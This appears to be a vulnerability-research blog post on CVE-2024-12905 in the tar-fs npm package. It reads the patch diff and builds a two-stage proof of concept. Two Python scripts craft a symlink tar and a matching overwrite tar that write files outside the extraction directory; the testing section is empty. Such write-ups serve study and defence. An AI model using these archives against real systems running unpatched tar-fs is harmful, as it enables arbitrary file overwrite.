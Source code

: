 ```yaml
---
title: CVE-2024-12905 - tar-fs Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-tarFs-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-12905

## Introduction     
The `tar-fs` npm package is commonly used in JavaScript projects to pack and extract `.tar` archive files. However, a critical vulnerability ([CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)) affects several versions of this package — specifically:

- Versions from 0.0.0 before 1.16.4

- Versions from 2.0.0 before 2.1.2

- Versions from 3.0.0 before 3.0.7

This vulnerability allows attackers to craft malicious `.tar` archives that can write or overwrite files outside the intended extraction directory, potentially leading to arbitrary file write attacks. This kind of flaw poses a serious risk, especially in environments that automatically extract user-provided archives.

In this blog, we’ll dive into the `tar-fs` source code and analyze the relevant Git commits before and after the patch to understand how the vulnerability works. We'll also walk through the process of crafting a proof-of-concept (PoC) exploit to demonstrate its impact.

## Vulnerability Analysis
While researching recently published vulnerabilities for a new vulnerable machine concept, I came across **CVE-2024-12905**. The description immediately piqued my interest, and I was eager to replicate the vulnerability. However, I quickly realized that no public exploit code existed for it.

Determined to explore further, I decided to dive into the patch diffs myself to uncover exactly where the vulnerability was introduced—and more importantly, how it was fixed—so I could develop a working proof of concept (PoC).

Fortunately, the researchers who discovered the vulnerability referenced a specific commit hash in the `tar-fs` repository where the issue was addressed: [mafintosh/tar-fs@a1dd7e7](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed).

Upon reviewing this commit, I noticed a number of key additions to the code that appeared to patch the underlying issue. 

First, on line `123`, a new line was introduced to retrieve the absolute path of the current working directory. This serves as a baseline for validating file paths during extraction.

Then, on lines `221` to `223`, an important security check was added. This logic ensures that when unpacking archives, any symbolic links are verified to confirm they do **not** point to locations outside the current working directory.

As shown in *Figure 1*, new lines were added to perform these validation checks. This includes a call to the `inCwd()` function, which is responsible for ensuring that resolved paths stay within the current working directory.

The actual implementation of `inCwd()` can be seen in *Figure 2*.

![Additions to the code](github_commit_and_additions.png)  
*Figure 1: Key Code Additions*

![inCwd Code Addition](inCWD_code_addition.png)  
*Figure 2: Implementation of `inCwd()`*


From these observations, we can begin to pinpoint the core of the vulnerability. In the affected versions of `tar-fs`, it is possible to unpack `.tar` archives containing symbolic links that point **outside** the current working directory. This oversight could allow attackers to write or overwrite arbitrary files on the system by leveraging specially crafted archive contents.


## Exploit Development
After identifying the vulnerability i moved on to crafting an exploit to proove ths concept. From the vulnerabilty i came to understand that we could submit archives with symbolic links and the affected version of `tar-fs` would happily unpack it. The exploitation doesn't end here as there are two stages involved in successfully obtaining a file write/overwrite.

### Stage 1: Creating a tar archive with a symbolic link embedded
The first stage is to create a tar archive with a symblic link embedded that points to the target file on the system that we aim to over write. We achieve this using python.   

```python
import tarfile
import os

archive_name = 'stage_1.tar'
link_name = 'normal_file' 
symlink_target = '../../../../../../../../../home/mcsam/poc' # Replace with traversed path to the file you want to overwrite

# Create symbolic link
os.symlink(symlink_target, link_name)

# Archive the symbolic link
tar = tarfile.open(archive_name, 'w')
tar.add(link_name, recursive=False)
tar.close()
```

This is what the tar file should look like when viewed.
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_1.tar 
lrwxrwxrwx mcsam/mcsam       0 2025-04-18 15:06 normal_file -> ../../../../../../../../../home/mcsam/poc
```

When `stage_1.tar` is unpacked on the target the symbolic link `normal_file` will be dropped on the target.

### Stage 2: Creating stage_2 tar archive 
In stage 2, i created another tar `stage_2.tar` which archives a file with the **same name** as the symbolic link. This newly archived file contains the contents to write to the target file. We can als do this in python.

```python
import tarfile

path_to_file_to_archive = 'poc' 
archive_name = 'stage_2.tar'

tar = tarfile.open(archive_name, 'w')
tar.add(path_to_file_to_archive, 'normal_file') # normal_file: same name as the symbolic link
tar.close()
```

The tar file should look like this when viewed.
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_2.tar 
-rw-rw-r-- mcsam/mcsam      19 2025-04-18 15:16 normal_file
```

When stage_2.tar is unpacked by the vulnerable tar-fs application it will attempt to write the file `normal_file` to the file system. Rememeber that we already have a symbolic link called `normal_file` on the target to when `tar-fs` tries to overwrite this file in its current working directory it will end up following the link to overwrite the link target `../../../../../../../../../home/mcsam/poc`.

## Testing The Exploit

### References
